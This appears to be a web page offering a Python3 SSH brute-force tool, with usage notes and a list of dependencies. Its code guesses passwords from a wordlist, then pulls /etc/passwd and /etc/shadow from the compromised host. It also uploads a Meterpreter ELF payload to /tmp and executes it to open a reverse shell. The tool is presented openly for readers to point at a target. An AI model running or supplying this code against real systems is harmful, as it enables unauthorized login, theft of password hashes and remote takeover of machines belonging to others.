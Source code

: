 ```yaml
---
layout: attack
title: SSHBruteForcer
---
```


<img height="150" align="left" src="/images/ssh-bruteforcer.png">
Tiny and simple SSH brute force tool written in Python3 that can return a meterpreter reverse shell. Edit the source code below for your hostname, username, password, and MSF reverse shell details. There is also functionality to automatically download `/etc/passwd` and `/etc/shadow` from the host. This as you might have already figured out is only working if the host has enough access.

```python
#!/usr/bin/python3

print("""\                                                                                                                        
   _____  _____  _    _   ____                _          ______                          
  / ____|/ ____|| |  | | |  _ \              | |        |  ____|                          
 | (___ | (___  | |__| | | |_) | _ __  _   _ | |_  ___  | |__  ___   _ __  ___  ___  _ __ 
  \___ \ \___ \ |  __  | |  _ < | '__|| | | || __|/ _ \ |  __|/ _ \ | '__|/ __|/ _ \| '__|
  ____) |____) || |  | | | |_) || |   | |_| || |_|  __/ | |  | (_) || |  | (__|  __/| |   
 |_____/|_____/ |_|  |_| |____/ |_|    \__,_| \__|\___| |_|   \___/ |_|   \___|\___||_|   
                                                                                          
""")

from pwn import *
import paramiko
import os
import time


host = "192.168.0.1"
username = "RandomDude"
port_int = 22
attempts = 0
sshClient = paramiko.SSHClient()
client = paramiko.SSHClient()

with open("wordlist.txt", "r") as password_list:
  for password in password_list:
    password = password.strip("\n")
    try:
     print("[{}] Attempting Password: {}".format(attempts, password, port_int))
     response = ssh(host=host, user=username, password=password, port=port_int, timeout=1)
     if response.connected():
       print("[>] You Cracked It!: {}".format(password))
       sleep(2)
       print("***SENDING METERPRETER SHELL BACK***")
       response.close()
       break
    except paramiko.ssh_exception.AuthenticationException:
     print("[X] Nope, That's Not It")
    attempts += 1

try:
   client = paramiko.SSHClient()
   client.load_system_host_keys()
   client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   client.connect(hostname=host, port=port_int, username=username, password=password)
   
   sftp = client.open_sftp()
   
   # Download   
   filepath = "/etc/passwd"
   localpath = "/home/user/passwd.txt"
   sftp.get(filepath,localpath)
   
   filepath = "/etc/shadow"
   localpath = "/home/user/shadow.txt"
   sftp.get(filepath,localpath)

   # Upload
   filepath = "/tmp/shell.elf"
   localpath = "shell.elf"
   sftp.put(localpath,filepath)

   sftp.close()

   while True:
    try:  
       stdin, stdout, stderr = client.exec_command('chmod +x /tmp/shell.elf && cd /tmp && ./shell.elf')
       print(stdout.read().decode())
       break
    except KeyboardInterupt:
        print("Exited On User Command")
   client.close()
except Exception as err:
   print(str(err))

```

*Cough* now time for the ugly part of this script: the dependencies. Add these to `requirements.txt` or poetry. Newer versions of the dependencies should work but I haven't tested them:

```
paramiko==2.7.2
pwncat==0.4.3
pwntools==4.6.0
```
